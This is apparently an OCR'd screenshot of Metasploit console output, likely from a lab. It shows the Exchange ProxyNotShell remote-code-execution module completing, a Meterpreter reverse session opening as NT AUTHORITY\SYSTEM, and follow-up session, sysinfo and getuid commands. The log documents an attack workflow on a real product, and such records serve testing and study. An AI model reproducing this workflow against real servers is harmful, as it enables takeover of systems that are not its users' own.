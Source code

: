 ```
[*] Command Stager progress -  81.61% done (82489/101079 bytes)
[*] Command Stager progress -  89.03% done (89988/101079 bytes)
[*] Command Stager progress -  96.45% done (97487/101079 bytes)
[*] Command Stager progress - 100.00% done (101079/101079 bytes)
msf6 exploit(windows/http/exchange_proxynotshell_rce) >
[*] Sending stage (175686 bytes) to 192.168.100.243
[*] Meterpreter session 3 opened (192.168.100.243:4444 -> 192.168.100.243:44729) at 2022-12-19 16:34:50 +0100

msf6 exploit(windows/http/exchange_proxynotshell_rce) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         shell linux              SSH n00tmeg @                       192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
  2         meterpreter x86/linux    testuser @ 192.168.101.229          192.168.100.243:4433 -> 192.168.100.245:54360 (192.168.100.245)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN2019EXCH1  192.168.100.243:4444 -> 192.168.100.243:44729 (192.168.101.217)

msf6 exploit(windows/http/exchange_proxynotshell_rce) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN2019EXCH1
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

